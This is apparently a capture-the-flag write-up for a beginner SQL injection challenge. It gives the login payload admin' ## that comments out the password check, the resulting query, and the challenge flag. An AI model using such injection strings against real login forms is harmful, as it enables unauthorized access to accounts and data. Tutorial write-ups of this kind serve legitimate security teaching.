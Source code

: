 # SQL101

Hi there! 

It's time to learn about SQL injection, a famous and representative web attack skill. 

The server is running at: http://sqli101.sstf.site/step2.php. 

This is a **tutorial** challenge.
If you are not sure how to solve this,  
please refer to the **tutorial guide ([Eng](https://onedrive.live.com/embed?resid=F7E83213DDD289C7!2257&authkey=!ALtIE_cNe-XDn2o&em=2))**.

## Solution

![image-20210816094617945](./img/image-20210816094617945.png)

- `login= admin' ##`
- `password=whatever`

SQL request is:

```sql
SELECT * FROM `users` WHERE id='admin' ## ' AND pw='whatever'
```

## Flag

```
SCTF{th3_f1rs7_5t3p_t0_the_w3B_h4ckEr}
```

